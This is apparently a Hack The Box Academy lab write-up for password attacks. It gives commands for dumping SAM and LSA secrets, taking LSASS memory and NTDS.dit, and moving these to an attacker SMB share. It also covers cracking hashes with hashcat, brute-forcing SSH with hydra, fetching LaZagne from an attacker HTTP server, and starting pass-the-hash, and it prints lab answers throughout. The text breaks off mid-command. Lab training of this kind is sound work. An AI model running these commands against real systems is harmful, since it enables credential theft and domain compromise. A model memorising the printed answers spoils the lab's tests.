#### Technical Methodology & Exploit Execution:

First, lets RDP to the target Windows machine using the provided
credentials ('bob')

We will first have to acquire 'ITbackdoor' NTLM hash:
Method 1: We will use similar method I did in HTB-Academy Windows Privilege
Escalation Writeup (page 124)  – first on the target machine we will open
```bash
powershell as ADMINISTRATOR in 'C:\Users\bob\Documents', then we will run
```
the commands:
reg save HKLM\SAM .\SAM
reg save HKLM\SECURITY .\SECURITY
reg save HKLM\SYSTEM .\SYSTEM


*we can confirm saving with 'ls' or looking visually at the directory. *
Now lets transfer the files to our attacking pwnbox using SMB share (in a bit
different way used on the Windows Privilege Escalation writeup equivalent task
(page 124)).
On the pwnbox, we will run the command:
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData ./
```
where './' is the pwnbox user's home directory, and 'CompData' is the name of
the share:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### On the target machine, we run the commands

Now our share is up and running, when there are incoming files, incoming
uploads will be displayed.
On the target machine, we run the commands:
move SAM \\`<attacker-IP>`\CompData
move SECURITY \\`<attacker-IP>`\CompData
move SYSTEM \\`<attacker-IP>`\CompData
the command will move the files from bob's documents folder (where they
were saved), to the share – where they are essentially uploaded to the attacker
machine:


On the server will be notified (for each uploaded file):

And when done, we can confirm with 'ls S*' (look for all files which begin with
'S'):


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


*_Figure 15.4 — Lab execution and output verification (Page 15)_*


### we will use crackmapexec

#### Technical Methodology & Exploit Execution:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security SECURITY
-system SYSTEM LOCAL
```


We are looking for the NTLM hash of 'ITbackdoor', which is marked at the
screenshot above.

Method 2:
we will use crackmapexec:
```bash
crackmapexec smb <target-IP> --local-auth -u bob -p
HTB_@cademy_stdnt! --sam
```
*the user's credentials are built in on the command. *:

The ITbackdoor NTLM hash is marked, right at the end.


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Then we run the command

> **Lab Question (Page 17)**: Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)
>
> **Flag / Answer**: `frontdesk:Password123`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sudo hashcat -m 1000 hash.txt rockyou.txt
```


And here is the cracked password of 'ITbackdoor'

Question: Dump the LSA secrets on the target and discover the credentials
stored. Submit the username and password as the answer. (Format:
username:password, Case-Sensitive)
Answer: frontdesk:Password123
Method: we will use crackmapexec, similar command to the hash dumping:
```bash
crackmapexec smb <target-IP> --local-auth -u bob -p
HTB_@cademy_stdnt! --lsa
```
the difference is here we have the '--lsa' for gettings the credentials:

*
*

And we have the credentials frontdesk:Password123 (the other method
suggested by the section is proabaly using secretdump, however while the
password 'Password123' is discovered there, it says 'unknown user', yes – extra
steps can be taken to attain the user, but it will not be covered here).


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### Attacking LSASS

> **Lab Question (Page 18)**: What is the name of the executable file associated with the Local Security Authority Process?
>
> **Flag / Answer**: `lsass.exe`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'LSASS is a subsystem of local security authority'

Question: Apply the concepts taught in this section to obtain the password to
the Vendor user account on the target. Submit the clear-text password as the
answer. (Format: Case sensitive)
Answer: Mic@123
Method: first, we will RDP to the target Windows machine with 'htb-student'
provided credentials.
Now the objective is to get lsass dmp.
We will open the task manager, and on 'Processes' tab – we will look for the
process: 'Local Security Authority Process'

Right click it, and select 'Create dump file'


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### DMP file was saved to

When completed – we will get a completion message including the folder the
DMP file was saved to:

Going to the folder:

Here it is.
Lets use the same 'smb' method to transfer the file to the attacking pwnbox, as
we did in 'Attacking SAM' section (the steps will not be repeated here, but full
details refer to that section), but here are the necessary transfer commands:
Server:
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData ./
Client:
move lsass.dmp \\`<attacker-IP>`\CompData
```

when the file is transferred – it will be on the attacking pwnbox:

Once we have it, we will use the tool 'pypykatz' (python implementation of
'mimikatz') to process the dmp.
'pypykatz' is not preinstalled in the attacking pwnbox, we will have to install it
with pip:
pip3 install pypykatz

when installed -  we will run pypykatz to analyze the lsass data.


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### we will use the command

#### Technical Methodology & Exploit Execution:

pypykatz lsa minidump lsass.dmp | grep Vendor -B 4
the grep Vendor -B 4 is to display only 4 lines surrounding every occurrences of
the word 'Vendor' within the output, so we will not be overflooded t with
irrelevant data:

We have the NTLM hash. Lets put the hash in 'hash.txt' and download rockyou
wordlist. Then we run the hashcat command:
```bash
sudo hashcat -m 1000 hash.txt rockyou.txt
```


*Note – don't bother with the sha1 hash, it won't work (well for me it didn't). *


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### Attacking Active Directory & NTDS.dit

> **Lab Question (Page 21)**: What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.***)
>
> **Flag / Answer**: `NTDS.dit`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'NT Directory Services (NTDS) is the directory service used with AD to find &
organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the
domain controllers in a forest. The .dit stands for directory information tree. This is the
primary database file associated with AD and stores all domain usernames, password
hashes, and other critical schema information. If this file can be captured, we could
potentially compromise every account on the domain similar to the technique we covered in
this module's Attacking SAM section. As we practice this technique, consider the importance
of protecting AD and brainstorm a few ways to stop this attack from happening.'

Question: Submit the NT hash associated with the Administrator user from the
example output in the section reading.
Answer: 64f12cddaa88057e06a81b54e73b949b
Method: lets take a look on the section's example output of NTDS.dit dump:

The NTLM hash is the second hash, so we will take it from the Administrator's
line.


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


### and but its name in there

> **Lab Question (Page 22)**: On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)
>
> **Flag / Answer**: `jmarston:P@ssword!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will have to compile a list of possible usernames based on
their names. Our current target is 'John Marston'. Let's make a file 'names.txt'
and but its name in there:

Now, we will download the tool 'Username Anarchy' which will do the
compilation for us, we will use the command:
./username-anarchy-master/username-anarchy -i names.txt >
usernames.txt
*The executable is within 'username-anarchy-master' folder. *
We will output the results to a file called 'usernames.txt'.

When finishes – lets observe the 'usernames.txt' content:


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### all the possible names in 'fasttrack.txt'

> **Lab Question (Page 23)**: Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear- text password as the answer. (Format: Case-Sensitive)
>
> **Flag / Answer**: `Winter2008`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

ok we need to obtain the NTDS.dit and transfer it to out attacking
pwnbox for cracking.
Method 1: we will have to login using 'John Marston' credentials that we had
just obtained, but to what service?
Lets run nmap:
```bash
nmap <target-IP> -sV -p 1-7500
```
to scan the first 7500 ports of our target machine (with extended inspection):


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


### We will use Evil-WinRM, using the command

#### Technical Methodology & Exploit Execution:

```bash
evil-winrm -i <target-IP> -u jmarston -p 'P@ssword!'
```
using the obtained credentials:

We are in. let's obtain the credentials – for that we will need not only the
NTDS.dit, but also SYSTEM (yes – 'C:\Windows\syste32\config\SYSTEM')
We will have to see what privileges our user has, we will run the commands:
```bash
net localgroup
```
for our local group privileges
or
```bash
net user jmarston
```
for domain privileges


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


### local group privileges output

local group privileges output:

Our user belongs to Administrator group.

Domain groups:

*
*

Our user belongs to Domain Admins group within the domain.
Each of the groups (Administrators, Domain Admins) is enough to acquire the
NTDS.dit file and SYSTEM, however it is still good practice to check for both.
In previous sectioned we extracted SYSTEM with administrator powershell –
getting directly from the registry, however in here we will obtain it with the
same method we will obtain NTDS.dit.
Extracting NTDS.dit from the registry as we did to SAM/SECURITY/SYSTEM is
not as simple, we will use another method – shadow copy (basically a snapshot
of the system files or volumes).


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### Then we run the command

#### Technical Methodology & Exploit Execution:

vssadmin CREATE SHADOW /For=C:


We can observe our created Volume's Name is 'HarddiskVolumeShadowCopy1'
Then we take the necessary files to 'C:\NTDS', using the commands:
cmd.exe /c copy
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS
\NTDS.dit c:\NTDS\NTDS.dit

cmd.exe /c copy
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\syst
em32\config\SYSTEM c:\NTDS\SYSTEM
(the format is 'HarddiskVolumeShadowCopyX')


And here is the copy confirmation:


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


*_Figure 26.4 — Lab execution and output verification (Page 26)_*


### Server

Now, we will use the usual smb method used in previous section to transfer the
NTDS.dit and SYSTEM from the target machine to the attacking pwnbox:

Server:
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData ./
Client:
move C:\NTDS\NTDS.bit \\`<attacker-IP>`\CompData
```
move C:\NTDS\NTDS.bit \\`<attacker-IP>`\CompData

when transferred – the file will be on the attacking pwnbox:


Now time for secretdump analysis of the dump:
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb <target-IP> -u jmarston -p P@ssword! --ntds
```


Method 2 is of course much faster, and in real case I would pick that method as
default, but its important to show both possible methods to obtain 'Jennifer
Stapleton' NTLM hash.

Now that we have the  hash – time to crack it (using rockyou password list), we
will use the same steps done in previous NTLM hash cracking (using hashcat):
```bash
sudo hashcat -m 1000 hash.txt rockyou.txt
```


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### Credential Hunting in Windows

> **Lab Question (Page 29)**: What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)
>
> **Flag / Answer**: `WellConnected123`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP to the target windows machine with the credentials
of 'bob', provided to us.
In bob's Desktop:

We see 'WorkStuff' folder – lets check that out:
In it wee creds folder:

And in it..


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### Passwords file – lets open it

> **Lab Question (Page 30)**: What is the GitLab access code Bob uses? (Format: Case-Sensitive)
>
> **Flag / Answer**: `3z1ePfGbjWPsTfCsZfjy`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

looking again at WorkStuff Folder:

Below Creds we have another file – 'GitlabAccessCodeJustIncase':


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


*_Figure 30.4 — Lab execution and output verification (Page 30)_*


### On the pwnbox we will initiate python server

> **Lab Question (Page 31)**: What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)
>
> **Flag / Answer**: `ubuntu:FSadmin123`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will use the tool 'LaZagne' credentials searcher tool.
The tool is not pre-installed in the target machine. we will have to download it
there.
We download the tool to the pwnbox (from the link above), and then we will
have to bring it to the target machine.
On the pwnbox we will initiate python server:
```bash
python -m http.server 8080
```
and on the target machine client we will download the tool with the command:
```bash
iwr -uri http://<attacker-IP>:8080/LaZagne.exe -outfile
```
LaZagne.exe

when the tool is downloaded to the target machine, we will run it with the
command:
start lazagne.exe all
a new terminal will be opened:

Showing the credentials to the WinSCP server.


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


### 'Automations&Scripts'

> **Lab Question (Page 32)**: What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)
>
> **Flag / Answer**: `Inlanefreightisgreat2022`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

investigating bob's files further, we can observe in 'C:\' a folder called
'Automations&Scripts':

This 'BulkAddADusers' script looks interesting:

Lets open it:

This active directory user adding script has default hard coded password.


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### The title is immediate giveaway

> **Lab Question (Page 33)**: What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)
>
> **Flag / Answer**: `edgeadmin:Edge@dmin123!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the Desktop we have Visual Studio code:

Lets open it.
The title is immediate giveaway:

EdgeRouterConfigs..
Lets take a look at the content:


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### Credential Hunting in Linux

> **Lab Question (Page 34)**: Examine the target and find out the password of the user Will. Then, submit the password as the answer.
>
> **Flag / Answer**: `TUqr7QfLTLhruhVbCP`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

In this question we are provided with a target Linux machine, but no
credentials for initial login, which has to be obtained for further examination.
However, looking at the hint:

We are told that the possible credentials 'Kira:LoveYou1' could be used.
However if we try to ssh the target machine with those credentials:

Access denied.
Lets attempt to mutate the password, just as we did in 'Password Mutations'
We will put the the original password in a file called 'password.txt', and output
the mutated passwords list to mut_password.txt. we will use the command:
```bash
hashcat --force password.txt -r custom.rule --stdout | sort
-u > mut_password.txt
```
and here is the start of the output mutated passwords file:


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


### small 'k' in the name – 'kira', we will use the command

#### Technical Methodology & Exploit Execution:

```bash
hydra -l kira -P mut_password.txt ssh://<target-IP>
```
and the password is found:

kira:L0vey0u1!
Ok lets login:
```bash
ssh kira@<target-IP>
```


*
*

We are in. lets start to explore the machine and locate 'Will' credentials.


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


### server using the commands

#### Technical Methodology & Exploit Execution:

python3.9 firefox_decrypt.py
yes – the python3.9 matters as the script required execution with python
interpreter version 3.9 (or above):

We are required to select a profile – we select 2:

will's password is found.


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### Passwd, Shadow & Opasswd

> **Lab Question (Page 37)**: Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.
>
> **Flag / Answer**: `J0rd@n5`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will begin with ssh logging to the Linux target machine, using
Will's credentials obtained in the last section: 'will:TUqr7QfLTLhruhVbCP':

*
*

We are in.
To obtain root's password, we need his hash – which is located at
'/etc/sahdow'. Lets run:
```bash
ls -l /etc/shadow
```
to see if we even have permissions to read the file (will user has no sudo or any
elevated privileges in the target machine):

The file can be read only by its owner (root), or members of the group
'shadow'.


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### './backups' looks interesting

#### Technical Methodology & Exploit Execution:

```bash
cat .backups/shadow.bak | grep root
```


$6 means we are dealing with SHA-512 hash algorithm, whose hashcat code is
1800.


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


*_Figure 38.4 — Lab execution and output verification (Page 38)_*


### Out of the hash – we need the marked (yellow) part

#### Technical Methodology & Exploit Execution:

echo
'$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8
AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.' > hash.txt
*the quotation marks on the hash are important! *

We will also required the resources folder, containing the password.list and the
custom.rule. in the pwnbox we will run:
```bash
hashcat --force password.list -r custom.rule --stdout | sort
-u > mut_password.list
```
to create the mut_password.list (the same one we made in previous relevant
sections)

when both are ready, we may begin the hashcat cracking with the command
```bash
hashcat -m 1800 hash.txt mut_password.list
```
*-m 1800 is for SHA512*:

After several seconds we will crack the password:


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


### Pass the Hash (PtH)

> **Lab Question (Page 40)**: Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.
>
> **Flag / Answer**: `G3t_4CCE$$_V1@_PTH`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, lets nmap scan the target machine to determine whatOS it has,
and what services it runs:
```bash
nmap 10.129.204.23 -sV -p 1-7500
```


a windows machine, with running WinRM service (port 5985) – which is
suspectable to pass the hash.
Now, the credentials we are provided with: 'Administrator:
30B3783CE2ABF1AF70F77D0660CF3453' – they have the hash of
'Administrator's password, and not the password itself.
So lets login to WinRM service using 'evil-WinRM' tool, with pass the hash. We
will log in with the command:
```bash
